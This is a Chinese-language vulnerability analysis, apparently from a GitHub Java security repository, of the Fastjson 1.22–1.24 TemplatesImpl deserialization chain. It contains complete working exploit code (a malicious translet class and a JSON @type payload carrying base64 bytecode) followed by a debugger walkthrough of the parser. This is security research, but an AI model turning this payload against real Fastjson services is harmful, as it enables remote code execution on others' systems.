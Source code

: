 # Fastjson1.22-1.24反序列化分析之TemplateImpl

## 限制

这个利用链要求还是很高的，需要设置`Feature.SupportNonPublicField`才能成功触发

## 利用过程

首先写一个`Evil.java`，需要继承`AbstractTranslet`后面会简单说到

```java
public class Evil extends AbstractTranslet {
    public Evil() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {
    }
    public static void main(String[] args) throws Exception {
        Evil t = new Evil();
    }
}
```

再写一个Exploit.java，别忘了修改路劲

```java
package fastj;

import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.*;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.commons.codec.binary.Base64;
import org.apache.wicket.util.io.IOUtils;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class Exploit {
    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());
    }

    public static void main(String args[]){
        try {
            ParserConfig config = new ParserConfig();
            final String evilClassPath = System.getProperty("user.dir") + "\\target\\classes\\fastj\\Evil.class";
            String evilCode = readClass(evilClassPath);
            final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
            String payload = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'','_tfactory':{ },\"_outputProperties\":{ }," +
                "\"_version\":\"\"}\n";

            JSON.parseObject(payload, Object.class, config, Feature.SupportNonPublicField);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

## 流程分析

首先在`JSON.parseObject`打上断点，后面跟进这个`DefaultJSONParser`![](img/1.png)

后面`JSONScanner`是初始化操作没啥好说的，有兴趣自己跟入

![](img/2.png)

当前为`{`并设置了token为12，记住他

![](img/3.png)

接下来看`parser.parseObject`，继续跟入

![](img/4.png)

再往下跟入`DefaultJSONParser`的`parse`方法![](img/5.png)

由于token为12![](img/6.png)

接下来扫描到`"`![](img/7.png)

获取key为`@type`![](img/8.png)

这里`JSON.DEFAULT_TYPE_KEY`就是`@type`![](img/9.png)

通过判断后调用scanSymbol()获取到了@type对应的指定类`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`，并调用TypeUtils.loadClass()函数加载该类![](img/10.png)

看看`TypeUtils.loadClass`这里涉及了之后的绕过黑名单方法

![](img/11.png)往下看，通过`ClassLoader.loadClass()`加载到目标类后，然后将该类名和类缓存到Map中，最后返回该加载的类![](img/12.png)

返回后，程序继续回到`DefaultJSONParser.parseObject()`中往下执行，在最后调用`JavaBeanDeserializer.deserialze()`对目标类进行反序列化![](img/13.png)

## 属性下面有_下划线是怎么处理的

比如`_bytecodes`，跟入`parseField`![](img/14.png)

这个`smartMatch`

![](img/15.png)

里面对下划线进行了删除

```java
for(i = 0; i < key.length(); ++i) {
    char ch = key.charAt(i);
    if (ch == '_') {
        snakeOrkebab = true;
        key2 = key.replaceAll("_", "");
        break;
    }
```

## 为什么对_bytecodes进行Base64编码

FastJson提取byte[]数组字段值时会进行Base64解码，所以我们构造payload时需要对 `_bytecodes` 进行Base64处理，如下图

![](img/16.png)![](img/17.png)

## 为什么需要设置_tfactory为{}

在`getTransletInstance()`函数中调用了`defineTransletClasses()`函数，`defineTransletClasses()`函数是用于生成Java类的，在其中会新建一个转换类加载器，其中会调用到`_tfactory.getExternalExtensionsMap()`方法，若`_tfactory`为null则会导致这段代码报错、从而无法生成恶意类，进而无法成功攻击利用![](img/18.png)

## 关于Tempaltesimpl里面的一些知识

看我另一篇文章，不必重复，[链接直达](https://github.com/Stakcery/JavaSec/blob/main/%E5%85%B6%E4%BB%96/%E5%88%A9%E7%94%A8TemplatesImpl%E6%89%A7%E8%A1%8C%E5%AD%97%E8%8A%82%E7%A0%81/%E5%88%A9%E7%94%A8TemplatesImpl%E6%89%A7%E8%A1%8C%E5%AD%97%E8%8A%82%E7%A0%81.md)
